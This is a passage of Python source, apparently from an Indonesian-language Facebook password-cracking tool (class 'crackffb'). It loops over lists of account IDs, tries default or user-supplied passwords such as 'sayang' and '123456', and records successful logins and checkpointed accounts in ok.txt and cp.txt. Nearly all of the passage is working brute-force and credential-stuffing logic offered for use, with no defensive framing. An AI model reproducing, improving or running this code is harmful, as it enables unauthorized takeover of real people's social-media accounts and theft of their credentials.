 						ttl = " "
					except:pass
					print(("\r\x1b[0;33m[\x1b[0;37mCP\x1b[0;33m] %s • %s               "%(fl.get("id"),i)))
					self.cp.append("%s • %s"%(fl.get("id"),i))
					open("cp.txt","a+").write("%s • %s\n"%(fl.get("id"),i))
					break
				elif log.get("status")=="success":
					print(("\r\x1b[0;32m[\x1b[0;37mOK\x1b[0;32m] %s • %s               "%(fl.get("id"),i)))
					self.ada.append("%s • %s"%(fl.get("id"),i))
					open("ok.txt","a+").write("%s • %s\n"%(fl.get("id"),i))
					break
				else:continue
					
			self.ko+=1
			print("\r\x1b[0;33m[\x1b[0;37mCrack\x1b[0;33m]\x1b[0;37m %s/%s \x1b[0;32m[\x1b[0;37mOK : %s\x1b[0;32m] \x1b[0;33m[\x1b[0;37mCP : %s\x1b[0;33m]\x1b[0;37m"%(self.ko,len(self.fl),len(self.ada),len(self.cp)), end=' ');sys.stdout.flush()
		except:
			self.main(fl)

class crackffb:
	os.system("clear")
	banner()
	def __init__(self,isifile):
		self.ada=[]
		self.cp=[]
		self.ko=0
		print((k+"\n["+p+"•"+k+"]"+p+" Mode Crack Password Default/Manual [d/m]"))
		while True:
			f=input(k+"["+p+"•"+k+"]"+p+" Pilih : ")
			if f=="":continue
			elif f=="m":
				try:
					while True:
						try:
							self.apk=isifile
							self.fs=open(self.apk).read().splitlines()
							break
						except Exception as e:
							print(("   %s"%e))
							continue
					self.fl=[]
					for i in self.fs:
						try:
							self.fl.append({"id":i.split("<=>")[0]})
						except:continue
				except Exception as e:
					print(("   %s"%e))
					continue
				print((k+"["+p+"•"+k+"]"+p+" Example : sayang,bismillah,123456"))
				self.pwlist()
				break
			elif f=="d":
				try:
					while True:
						try:
							self.apk=isifile
							self.fs=open(self.apk).read().splitlines()
							break
						except Exception as e:
							print(("   %s"%e))
							continue
					self.fl=[]
					for i in self.fs:
